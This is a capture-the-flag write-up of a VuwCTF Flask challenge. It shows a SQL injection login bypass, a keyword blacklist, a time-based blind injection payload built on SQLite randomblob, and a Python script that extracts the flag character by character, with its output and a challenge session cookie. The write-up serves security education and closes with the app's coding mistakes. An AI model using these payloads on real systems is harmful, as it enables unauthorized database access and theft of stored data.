

<!-- TODO archive link -->



The target is a Flask web application.  We're given the source code. The flag
is not referenced anywhere in the source code, but the application does talk to
a sqlite database, so maybe the flag is in there.

There are two endpoints that interact with the database:

- `/login`
- `/monitor`

`/login` accepts a username and password, checks if those credentials exist in
the table `fish`, and if they do then we're given a session cookie.  The cookie
contains one key--value pair: the key is `username`;
the value is the username we provided to `/login`.

`/monitor` first ensures that you have a session cookie with the key `username`:
```py
if 'username' not in flask.session:
    return flask.redirect('/')
```

Then `/monitor` takes the string labelled `query` from form data and
executes it as SQL on the database.

The plan is to get a session cookie with the key `username`, gain access to
the database, and exfiltrate the flag somehow.

## Getting a session cookie

Flask session cookies are signed with a key derived from the secret key.  In
this application the secret key is random and not known to us:
```py
app.secret_key = os.urandom(32)
```
so we can't forge the cookie.
This isn't a problem though, because the SQL query in `/login` is vulnerable to
injection:
```py
cur.execute("SELECT COUNT(*) FROM fish WHERE username = '" + username + "' AND password ='" + password +"';")
```

We get the cookie only if the query above returns at least one row:
```py
count = cur.fetchone()[0]
if count > 0:
    flask.session["username"] = username
```

If we set `username` to the literal `' or TRUE; --` and leave `password` empty,
the query becomes:
```sql
SELECT COUNT(*) FROM fish WHERE username = '' or TRUE; --' AND password ='';
```
which returns every row in the `fish` table, and gives us a cookie.


## Locating the flag

Now that we have a cookie, we can access `/monitor`.

`/monitor` executes arbitrary user-controlled queries on the database, subject
to several gotchas:

- Queries with these substrings are not run:
  ```py
  DISALLOWED_WORDS = ["insert", "create", "alter", "drop", "delete", "backup", "transaction", "commit", "rollback", "replace", "update", "pragma", "attach", "load", "vacuum"]
  ```
  ```py
  for word in DISALLOWED_WORDS:
      if word in query.lower():
          return flask.redirect('/admarine')
  ```

- The database is opened read only.

- We're only told if our query was executed with or without error.  We don't
  get any database rows.

This is a runtime-error oracle.
We can only ask the oracle for one bit of information at a time,
e.g., yes/no questions about the state of the database.
We can already do quite a lot with this.

Selecting from a nonexistent table produces a runtime error:
```
$ sqlite3
sqlite> select * from this_table_doesnt_exist;
Parse error: no such table: this_table_doesnt_exist
```

Let's check for if there's a table called `flag`.
```sql
select * from flag;
```
This executes without error, so there is a table named `flag`.
The flag is probably in there.

We can check if a table has exactly one column:
```
$ sqlite3
sqlite> create table one_column (a text);
sqlite> select substr((select * from one_column), 1, 1);
sqlite> 
sqlite> create table two_columns (a text, b text);
sqlite> select substr((select * from two_columns), 1, 1);
Parse error: sub-select returns 2 columns - expected 1
```

Running this query:
```sql
select substr((select * from flag), 1, 1);
```
This executes without error, so `flag` has exactly one column.

## Getting the flag

Let's check if the first `flag` entry starts with `VuwCTF{`.
To do this, we need our oracle to answer questions about the characters inside the
flag.

Given a boolean expression `b`, we want a query that produces a runtime error
if and only if `b` is false.  Queries like this exist already,
[here is one I found][error-oracle-query]:
```sql
select case when [BOOLEAN_QUERY] then 1 else load_extension(1) end;
```

On my machine this errors:
```
$ sqlite3
sqlite> select load_extension(1);
Runtime error: 1.so: cannot open shared object file: No such file or directory
```

However, `load` is one of the disallowed words, so we can't use this.

In the end I abandoned the runtime-error oracle and used a
timing oracle instead ([adapted from here][timing-oracle-query]).
```sql
select case when [BOOLEAN_QUERY] then 1 else 1337=like('abcdefg',upper(hex(randomblob(5_000_000/2)))) end;
```
If `[BOOLEAN_QUERY]` is truthy, the query returns 1 immediately. Otherwise,
sqlite creates a 2.5 MB [blob of random bytes][randomblob], converts it to
uppercase hex, and searches for the string `abcdefg` within it. On the CTF
infrastructure this dillydallying with random bytes took about 1 extra
second, which was consistent and measurable.  Undelayed requests took
0.2--0.4 seconds; delayed requests took 1.2--1.4 seconds.

Setting up the timing oracle:
```py
import requests
import time
import sys


URI = 'https://fishsite-f4ded89cc9ae01bc.challenges.2025.vuwctf.com/monitor'
SESSION = 'eyJ1c2VybmFtZSI6Iicgb3IgMTsgLS0ifQ.aTO5cQ.cKMwWfN-0D3nd_1IKveMa5y7bSo'
THRESH = 0.8


def post(query):
    t0 = time.monotonic()
    response = requests.post(URI, data={'query': query}, cookies={'session': SESSION})
    response.raise_for_status()
    duration = time.monotonic() - t0
    if 'Successful process' in response.text:
        ok = True
    elif 'Invalid query' in response.text:
        ok = False
    else:
        assert False
    return ok, duration


def timing_oracle_query(boolean_test):
    return f"select case when ({boolean_test}) then 1 else 1337=like('abcdefg',upper(hex(randomblob(5_000_000/2)))) end;"


def timing_oracle(query):
    ok, duration = post(timing_oracle_query(query))
    return duration < THRESH
```

Now we can confirm that the first entry starts with `VuwCTF{`:
```py
def is_prefix_query(string):
    return f"select substr((select * from flag), 1, {len(string)}) = '{string}'"


def is_prefix(string):
    return timing_oracle(is_prefix_query(string))
```
```
>>> is_prefix('VuwCTF{')
True
```
And not `VuwCTF_`:
```
>>> is_prefix('VuwCTF_')
False
```
This is what these queries look like, fyi:
```
>>> print(is_prefix_query('VuwCTF{'))
select substr((select * from flag), 1, 7) = 'VuwCTF{'
```
```
>>> print(timing_oracle_query(is_prefix_query('VuwCTF{')))
select case when (select substr((select * from flag), 1, 7) = 'VuwCTF{') then 1 else 1337=like('abcdefg',upper(hex(randomblob(5_000_000/2)))) end;
```

With the [`substr`][substr] SQL function, we can ask questions about specific
characters in the flag.  For example, to check if character 8 (1-indexed) is
`'a'`:
```sql
select substr((select * from flag), 8, 1) = 'a' from flag
```
or to check if character 8 (1-indexed) is at most `'a'`:
```sql
select substr((select * from flag), 8, 1) <= 'a' from flag
```

Brute forcing each character of the flag is now possible but would take ages. A
binary search on each character would be faster.
```py
def bin_search(is_goal_leq, low, upr):
    while low < upr:
        mid = (low + upr) // 2
        # is goal <= mid ?
        if is_goal_leq(mid):
            upr = mid
        else:
            low = mid + 1
    return low


def flag_bin_search(index):
    def is_goal_leq(n):
        query = f"select substr((select * from flag), {index + 1}, 1) <= '{chr(n)}' from flag"
        print(query)
        goal_is_leq_n = timing_oracle(query)
        if goal_is_leq_n:
            print(f'char at pos {index} is <=', n)
        else:
            print(f'char at pos {index} is >', n)
        return goal_is_leq_n
    return chr(bin_search(is_goal_leq, 0x14, 0x7e))


if __name__ == '__main__':
    flag = 'VuwCTF{'
    while not flag.endswith('}'):
        flag += flag_bin_search(len(flag))
        print(f'{flag=}\n')
    print(flag)
```

This produces output:
```
select substr((select * from flag), 8, 1) <= 'I' from flag
char at pos 7 is > 73
select substr((select * from flag), 8, 1) <= 'd' from flag
char at pos 7 is > 100
select substr((select * from flag), 8, 1) <= 'q' from flag
char at pos 7 is <= 113
select substr((select * from flag), 8, 1) <= 'k' from flag
char at pos 7 is <= 107
select substr((select * from flag), 8, 1) <= 'h' from flag
char at pos 7 is <= 104
select substr((select * from flag), 8, 1) <= 'f' from flag
char at pos 7 is > 102
select substr((select * from flag), 8, 1) <= 'g' from flag
char at pos 7 is > 103
flag='VuwCTF{h'

select substr((select * from flag), 9, 1) <= 'I' from flag
char at pos 8 is <= 73
select substr((select * from flag), 9, 1) <= '.' from flag
char at pos 8 is > 46
select substr((select * from flag), 9, 1) <= '<' from flag
char at pos 8 is <= 60
select substr((select * from flag), 9, 1) <= '5' from flag
char at pos 8 is <= 53
select substr((select * from flag), 9, 1) <= '2' from flag
char at pos 8 is > 50
select substr((select * from flag), 9, 1) <= '4' from flag
char at pos 8 is <= 52
select substr((select * from flag), 9, 1) <= '3' from flag
char at pos 8 is <= 51
flag='VuwCTF{h3'
```

Skipping to the end:
```
VuwCTF{h3art_0v_p3ar1}
```

# Mistakes this application made

- not using a library for making SQL queries
- not hashing passwords
- blacklisting SQL queries instead of whitelisting


[error-oracle-query]: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md#sqlite-error-based
[timing-oracle-query]: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md#sqlite-time-based
[randomblob]: https://sqlite.org/lang_corefunc.html#randomblob
[substr]: https://sqlite.org/lang_corefunc.html#substr
